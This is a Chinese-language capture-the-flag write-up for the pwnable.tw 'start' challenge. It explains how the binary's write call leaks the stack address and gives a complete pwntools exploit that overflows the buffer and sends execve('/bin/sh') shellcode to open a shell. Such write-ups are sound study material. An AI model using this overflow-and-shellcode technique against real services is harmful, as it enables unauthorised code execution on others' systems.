


检查文件信息


无任何保护，看反汇编 



如若利用shellcode得到shell则需要考虑esp如何获取的问题，很明显这里大概率不存在jump esp这种指令，仔细观察会发现它有push esp 指令，再看0x8048087这行语句，
ecx也就是esp作为write&read参数输出且输入。我们先利用read函数进行溢出，ret到0x8048082这个地址，此时栈里的值是push esp ，它作为缓冲区给write当参数，在编写脚本的时候利用sh.recv(4)接收输出的四个字节，也就是esp的地址，要注意第二次溢出的时候要把接收到的esp地址+0x14，因为最后要add esp,0x14，最后注意编写脚本的时候send()与sendline()的区别，后者会发送一个/n(0x0a)

这是exp
```python
from pwn import *
import time

#context(arch='i386',os='linux')
#context(log_level='debug')

#sh = process('./start')
sh = remote('chall.pwnable.tw',10000)

#直到输入:
sh.recvuntil(':')
#gdb.attach(sh)
#sleep(15)

#第一次溢出点跳转点
jmp1 = 0x08048087
#第一次发送，获取esp地址
payload = flat([b'A'*20],jmp1)
#两种方式的payload
#payload =b'A'*20 + p32(jmp1)

#不要使用sendline()，会导致增加一个/n
sh.send(payload)

get_esp = u32(sh.recv(4))
print(get_esp)

#shellcode版本
shellcode = asm("""
xor ecx,ecx;
push ecx;
push 0x0068732f;
push 0x6e69622f;
mov ebx,esp;
mov eax,0xb;
xor edx,edx
int 0x80"""
)

#字符版本
test_shellcode = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80\x00'

payload = flat([b'B'*20,get_esp+20,shellcode])
sh.send(payload)

sh.interactive()

```